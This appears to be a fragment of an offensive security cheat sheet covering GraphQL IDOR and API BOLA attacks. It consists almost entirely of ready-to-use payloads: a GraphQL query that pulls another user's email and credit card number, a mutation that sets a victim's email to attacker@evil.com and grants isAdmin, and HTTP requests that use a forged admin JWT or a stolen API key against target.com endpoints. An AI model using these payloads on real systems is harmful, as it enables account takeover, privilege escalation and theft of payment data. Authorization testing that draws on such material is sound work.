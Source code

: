
## GraphQL IDOR

### Query Manipulation
```graphql
query {
  user(id: "5678") {
    id
    email
    creditCard {
      number
      expiry
    }
  }
}
```

### Mutation Manipulation
```graphql
mutation {
  updateUser(id: "5678", input: {
    email: "attacker@evil.com"
    isAdmin: true
  }) {
    id
    email
    isAdmin
  }
}
```

---

## API BOLA

### JWT Claims Manipulation
```http
GET /api/admin/users HTTP/1.1
Host: target.com
Authorization: Bearer <modified_JWT_with_admin_claim>
```

### API Key Testing
```http
GET /api/v1/transactions?account_id=98765 HTTP/1.1
Host: target.com
X-API-Key: <stolen_or_weak_api_key>
```

---
